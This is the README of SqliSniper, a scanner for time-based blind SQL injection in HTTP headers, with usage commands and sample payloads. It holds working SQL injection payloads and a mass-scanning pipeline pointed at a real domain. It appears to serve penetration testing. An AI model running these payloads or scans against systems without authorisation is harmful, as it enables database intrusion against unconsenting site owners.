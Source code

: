 <h1 align="center">
  <img src="logo.png" alt="httpx" width="400px">
  <br>
</h1>

<p align="center">
<a href="https://opensource.org/licenses/MIT"><img src="https://img.shields.io/badge/license-MIT-_red.svg"></a>
<a href="https://t.me/tengkorakcybercrewz/"><img src="https://img.shields.io/badge/Telegram-2CA5E0?style=for-the-badge&logo=telegram&logoColor=White"></a>
</p>

<p align="center">
  <a href="https://github.com/danialhalo/SqliSniper#key-features">Features</a> •
  <a href="#installation">Installation</a> •
  <a href="#usage">Usage</a> •
  <a href="https://github.com/danialhalo/SqliSniper#running-sqlisniper">Running SqliAttack</a> •
  <a href="https://github.com/danialhalo/SqliSniper#contributing">Contributing</a> •
</p>

**SqliSniper** is a robust Python tool designed to detect time-based blind SQL injections in HTTP request headers. It enhances the security assessment process by rapidly scanning and identifying potential vulnerabilities using multi-threaded, ensuring speed and efficiency. Unlike other scanners, SqliSniper is designed to eliminates false positives through and send alerts upon detection, with the built-in Discord notification functionality.

![alt text](https://raw.githubusercontent.com/danialhalo/SqliSniper/main/banner.png)

## Key Features
- **Time-Based Blind SQL Injection Detection:** Pinpoints potential SQL injection vulnerabilities in HTTP headers.
- **Multi-Threaded Scanning:** Offers faster scanning capabilities through concurrent processing.
- **Discord Notifications:** Sends alerts via Discord webhook for detected vulnerabilities.
- **False Positive Checks:** Implements response time analysis to differentiate between true positives and false alarms.
- **Custom Payload and Headers Support:** Allows users to define custom payloads and headers for targeted scanning.


## Installation
```
git clone https://github.com/danialhalo/SqliSniper.git
cd SqliSniper
chmod +x sqlisniper.py
pip3 install -r requirements.txt
```
# Usage

This will display help for the tool. Here are all the options it supports.
```
ubuntu:~/sqlisniper$ ./sqlisniper.py -h


███████╗ ██████╗ ██╗     ██╗    ███████╗███╗   ██╗██╗██████╗ ███████╗██████╗
██╔════╝██╔═══██╗██║     ██║    ██╔════╝████╗  ██║██║██╔══██╗██╔════╝██╔══██╗
███████╗██║   ██║██║     ██║    ███████╗██╔██╗ ██║██║██████╔╝█████╗  ██████╔╝
╚════██║██║▄▄ ██║██║     ██║    ╚════██║██║╚██╗██║██║██╔═══╝ ██╔══╝  ██╔══██╗
███████║╚██████╔╝███████╗██║    ███████║██║ ╚████║██║██║     ███████╗██║  ██║
╚══════╝ ╚══▀▀═╝ ╚══════╝╚═╝    ╚══════╝╚═╝  ╚═══╝╚═╝╚═╝     ╚══════╝╚═╝  ╚═╝

                            -: By Muhammad Danial :-

usage: sqlisniper.py [-h] [-u URL] [-r URLS_FILE] [-p] [--proxy PROXY] [--payload PAYLOAD] [--single-payload SINGLE_PAYLOAD] [--discord DISCORD] [--headers HEADERS]
                     [--threads THREADS]

Detect SQL injection by sending malicious queries

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     Single URL for the target
  -r URLS_FILE, --urls_file URLS_FILE
                        File containing a list of URLs
  -p, --pipeline        Read from pipeline
  --proxy PROXY         Proxy for intercepting requests (e.g., http://127.0.0.1:8080)
  --payload PAYLOAD     File containing malicious payloads (default is payloads.txt)
  --single-payload SINGLE_PAYLOAD
                        Single payload for testing
  --discord DISCORD     Discord Webhook URL
  --headers HEADERS     File containing headers (default is headers.txt)
  --threads THREADS     Number of threads
```

# Running SqliSniper
### Single Url Scan
The url can be provided with `-u flag` for single site scan
```
./sqlisniper.py -u http://example.com
```
### File Input
The `-r flag` allows SqliSniper to read a file containing multiple URLs for simultaneous scanning.
```
./sqlisniper.py -r url.txt
```
### piping URLs
The SqliSniper can also worked with the pipeline input with `-p flag`
```
cat url.txt | ./sqlisniper.py -p
```
The pipeline feature facilitates seamless integration with other tools. For instance, you can utilize tools like subfinder and httpx, and then pipe their output to SqliSniper for mass scanning.
```
subfinder -silent -d google.com | sort -u | httpx -silent | ./sqlisniper.py -p
```
### Scanning with custom payloads  
By default the SqliSniper use the payloads.txt file. However `--payload flag` can be used for providing custom payloads file.
```
./sqlisniper.py -u http://example.com --payload mssql_payloads.txt
```
While using the custom payloads file, ensure that you substitute the sleep time with `%__TIME_OUT__%`. SqliSniper dynamically adjusts the sleep time iteratively to mitigate potential false positives.
The payloads file should look like this.
```
ubuntu:~/sqlisniper$ cat payloads.txt 
0\"XOR(if(now()=sysdate(),sleep(%__TIME_OUT__%),0))XOR\"Z
"0"XOR(if(now()=sysdate()%2Csleep(%__TIME_OUT__%)%2C0))XOR"Z"
0'XOR(if(now()=sysdate(),sleep(%__TIME_OUT__%),0))XOR'Z
```
### Scanning with Single Payloads
If you want to only test with the single payload `--single-payload flag` can be used. Make sure to replace the sleep time with `%__TIME_OUT__%`
```
./sqlisniper.py -r url.txt --single-payload "0'XOR(if(now()=sysdate(),sleep(%__TIME_OUT__%),0))XOR'Z"
```
### Scanning Custom Header 
Headers are saved in the file headers.txt for scanning custom header save the custom HTTP Request Header in headers.txt file. 
```
ubuntu:~/sqlisniper$ cat headers.txt 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
X-Forwarded-For: 127.0.0.1
```
### Sending Discord Alert Notifications
SqliSniper also offers Discord alert notifications, enhancing its functionality by providing real-time alerts through Discord webhooks. This feature proves invaluable during large-scale scans, allowing prompt notifications upon detection.
```
./sqlisniper.py -r url.txt --discord <web_hookurl>
```
### Multi-Threading 
Threads can be defined with `--threads flag`
```
 ./sqlisniper.py -r url.txt --threads 10
```
**Note:** It is crucial to consider that **employing a higher number of threads might lead to potential false positives or overlooking valid issues**. Due to the nature of time-based SQL injection it is recommended to use lower thread for more accurate detection.

---

<table>
<tr>
<td>

## Legal Disclaimer

Usage of this tool for attacking targets without prior mutual consent is strictly prohibited. It is the end user's responsibility to obey all applicable local, state, and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program..

</td>
</tr>
</table>

---

# Contributing
Contributions to SqliSniper are always welcome. Whether it's feature enhancements, bug fixes, or documentation improvements, every bit of help is appreciated.


# License
`SqliSniper` is distributed under [MIT License](https://github.com/danialhalo/SqliSniper/blob/main/LICENSE)

---

<div align="center">

`SqliSniper` is made in <img src="https://cdn3.iconfinder.com/data/icons/logos-and-brands-adobe/512/267_Python-512.png" alt="python" height="20px" width="20px"> with lots of 💙 by [@Muhammad Danial](https://twitter.com/DanialHalo).

</div>
